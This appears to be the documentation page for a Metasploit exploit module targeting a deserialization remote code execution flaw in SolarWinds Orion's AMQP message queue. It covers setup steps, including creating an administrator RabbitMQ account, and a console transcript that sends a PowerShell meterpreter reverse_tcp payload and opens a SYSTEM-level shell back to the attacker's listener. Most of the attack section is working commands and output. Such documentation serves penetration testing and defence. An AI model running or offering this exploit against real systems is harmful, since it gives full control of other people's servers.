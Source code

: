 ## Vulnerable Application

The SolarWinds Information Service (SWIS) is vulnerable to RCE by way of a crafted message received through the
AMQP message queue. A malicious user that can authenticate to the AMQP service can publish such a crafted
message whose body is a serialized .NET object which can lead to OS command execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Install the application (tested SolarWindows Orion NPM versions 2020.2.5 and 2020.2.6)
   1. After installation is complete, create an AMQP account so you know the credentials. The default account is `orion`.
   2. Open a command prompt in `C:\Program Files (x86)\SolarWinds\Orion\RabbitMQ\sbin>`
   3. Run: `.\rabbitmqctl.bat add_user "hax" "Password1!"`
   4. Run: `.\rabbitmqctl.bat set_permissions hax .* .* .*`
   5. Run: `.\rabbitmqctl.bat set_user_tags hax administrator`
2. Start msfconsole
3. Do: `use exploit/windows/misc/solarwinds_amqp_deserialization`
4. Set the `RHOSTS`, `USERNAME`, `PASSWORD`, `PAYLOAD` and payload related-options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios

### SolarWinds Orion NPM 2020.2.6 on Windows Server 2019 x64

```
msf > use exploit/windows/misc/solarwinds_amqp_deserialization 
[*] Using configured payload cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set RHOSTS 192.168.159.17
RHOSTS => 192.168.159.17
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set USERNAME hax
USERNAME => hax
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set PASSWORD Password1!
PASSWORD => Password1!
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set VERBOSE true
VERBOSE => true
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set PAYLOAD cmd/windows/powershell/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/misc/solarwinds_amqp_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(windows/misc/solarwinds_amqp_deserialization) > run

[*] Powershell command length: 4175
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.17:5671 - Successfully connected to the remote server.
[*] 192.168.159.17:5671 - Successfully opened a new channel.
[*] 192.168.159.17:5671 - Successfully published the message to the channel.
[*] Sending stage (186438 bytes) to 192.168.159.17
[*] Sending stage (186438 bytes) to 192.168.159.17
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.17:54960) at 2023-03-17 13:20:03 -0400

meterpreter >
```
